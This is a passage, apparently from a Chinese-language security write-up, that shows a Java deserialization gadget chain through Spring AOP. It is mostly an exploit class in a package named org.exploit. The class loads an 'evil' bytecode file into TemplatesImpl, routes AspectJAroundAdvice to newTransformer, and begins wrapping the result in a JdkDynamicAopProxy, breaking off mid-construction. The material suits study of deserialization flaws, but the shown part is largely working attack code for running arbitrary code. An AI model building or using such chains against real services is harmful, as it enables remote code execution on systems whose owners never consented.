 ### 套readObject

我们套上readObject去触发toString

```java
package org.exploit.third.springAOP;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.aop.aspectj.*;
import org.springframework.aop.framework.*;

import javax.management.BadAttributeValueExpException;
import java.io.IOException;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;

//JdkDynamicAopProxy.invoke()->
//ReflectiveMethodInvocation.proceed()->
//AspectJAroundAdvice->invoke->
//org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethod()->
//method.invoke()
public class Aspectjweaver {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class<?> templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        // 2. 获取 newTransformer 方法
        Method newTransformerMethod = templates.getDeclaredMethod("newTransformer");
        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templatesClass);
        AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
        AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(newTransformerMethod,aspectJExpressionPointcut,singletonAspectInstanceFactory);

//        Method invokeAdviceMethodWithGivenArgs = AbstractAspectJAdvice.class.getDeclaredMethod("invokeAdviceMethodWithGivenArgs",Object[].class);
//        invokeAdviceMethodWithGivenArgs.setAccessible(true);
//        invokeAdviceMethodWithGivenArgs.invoke(aspectJAroundAdvice,new Object[]{null});

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.addAdvice(aspectJAroundAdvice);
        advisedSupport.setTarget(aspectJAroundAdvice);
        Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> jdkDynamicAopProxyClassConstructor = jdkDynamicAopProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        jdkDynamicAopProxyClassConstructor.setAccessible(true);
```
